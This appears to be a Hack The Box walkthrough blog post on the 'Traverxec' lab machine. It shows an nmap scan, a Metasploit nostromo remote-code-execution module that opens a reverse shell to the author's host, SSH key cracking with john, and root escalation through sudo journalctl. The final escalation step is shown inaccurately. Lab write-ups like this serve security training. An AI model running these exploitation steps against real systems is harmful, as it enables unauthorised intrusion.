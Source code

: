 ```yaml
---
date: 2020-04-15 06:21:35
layout: post
title: "Traverxec Hack The Box Walkthrough"
subtitle:
description: Today we will be doing Traverxec from Hack The Box. The box was rated easy and good for beginners to practice pentesting skills.
image: /assets/img/uploads/traverxec/traverxec.jpg
optimized_image: /assets/img/uploads/traverxec/traverxec.jpg
category: walkthrough
tags: hackthebox boot2root
author: madhavmehndiratta
paginate: false
keywords: traverxec hack the box, hackthebox walkthrough, traverxec, htb, infosec articles, traverxec walkthrough, traverxec writeup
---
```



Today we will be doing Traverxec from Hack The Box. This box was rated easy and good for beginners to practice penetration testing skills. For the initial foothold we had to exploit a web server that was vulnerable to remote code execution and get a reverse shell back into our machine. For root, the user David had privilege to execute journalctl as root and we leveraged that to get root in the box. With that said let’s jump in.

We begin our reconnaissance by running a port scan with Nmap, checking default scripts and testing
for vulnerabilities.

```r
m1m3@kali:~$ nmap -sC -sV -oA nmap/traverxec 10.10.10.165

Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.165
Host is up (0.27s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.14 seconds
```

We see that the port 80 is open and it is running <i>nostromo 1.9.6</i>. Looking at port 80, we have a static website with nothing useful.

## Initial Foothold:

Now let's look on searchsploit if we have a vulnerable version of nostromo.

```r
m1m3@kali:~$ searchsploit nostromo

--------------------------------------------------------- ----------------------------------------
 Exploit Title                                           |  Path
                                                         | (/usr/share/exploitdb/)
--------------------------------------------------------- ----------------------------------------
Nostromo - Directory Traversal Remote Command Execution  | exploits/multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                   | exploits/multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Comma | exploits/linux/remote/35466.sh
--------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```

We have RCE available. Let's use the metasploit for it.

```r
msf5 > search nostromo

Matching Modules
================

   #  Name                                   Disclosure Date  Rank  Check  Description
   -  ----                                   ---------------  ----  -----  -----------
   0  exploit/multi/http/nostromo_code_exec  2019-10-20       good  Yes    Nostromo Directory Traversal Remote Command Execution


msf5 > use exploit/multi/http/nostromo_code_exec 
msf5 exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
RHOSTS => 10.10.10.165
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/http/nostromo_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.115:4444 
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.14.115:4444 -> 10.10.10.165:49476) at 2020-03-25 04:18:35 +0530
```


We get a TCP reverse shell which we can turn into a tty shell using:

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

If we type <i>id</i> we get the user of the shell:

```r
www-data@traverxec:/usr/bin$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## User Shell:

With some enumeration, we can see a nostromo configuration file present at <b>/var/nostromo/conf</b> that reveals a public home directory.

```r
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf

# HOMEDIRS [OPTIONAL]

homedirs          /home
homedirs_public   public_www
```

Based on the config file, I am guessing that david is going to have a sub directory named public_www, so let’s see if we can get a directory listing of <i>/home/david/public_www</i>

```r
www-data​ @traverxec​ :/var/nostromo/htdocs​ $ ​ ls /home/david/public_www -lah

ls /home/david/public_www -lah
total ​ 16​ K
drwxr-xr-x ​ 3 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 15​ : ​ 45​ .
drwx--x--x ​ 5 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 17​ : ​ 02​ ..
-rw-r--r-- ​ 1 ​ david david ​ 402​   Oct ​ 25​ ​ 15​ : ​ 45​ index.html
drwxr-xr-x ​ 2 ​ david david ​ 4.0​ K Oct ​ 25​ ​ 17​ : ​ 02​ protected-file-area
```

After looking inside the <i>protected-file-area</i> I found a <i>backup-ssh-identity-files.tgz</i>. After copying it to my machine, I found the private ssh key for David. We can now use john to crack the key and ssh into the box.

```r
m1m3@kali:~$ /usr/share/john/ssh2john.py id_rsa > id_rsa.txt
m1m3@kali:~$ john id_rsa.txt

Press 'q' ​ or​ Ctrl-C ​ to​ abort, almost any other key for status
hunter      (david)
Session completed
```

Hurray! We found the key for David. Now lets ssh into the box and grab the user flag.

```r
m1m3@kali:~$ ssh -i id_rsa david@10.10.10.165
Enter passphrase for key 'id_rsa': 
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64

david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david)

david@traverxec:~$ wc -c user.txt
33 user.txt
```

## Root Shell:

The first thing I noticed when I got the user when doing privilege escalation is there is a bin directory inside David’s home directory it has a file called server-stats.sh. 

```r
david@traverxec:~/bin$ cat server-stats.sh

#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

Last line of the script tells us that david can run <i>/usr/bin/journalctl</i> with sudo. So I searched in [GTFO bin’s](https://gtfobins.github.io/gtfobins/journalctl/) and exploited the less prompt that opens up as sudo using <i>!/bin/bash</i>.

```r
david@traverxec:/dev/shm$ ./server-stats.sh
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# wc -c /root/root.txt
33 root.txt
```

That’s it! Thanks for reading! Make sure to stay tuned for more upcoming Hack The Box writeups!
If you have any queries, you can contact me <a href="/contact">here.</a>

NOTE: The awesome artwork used in this article was created by <a href="https://dribbble.com/kangle" rel=”nofollow”>Kanye.</a>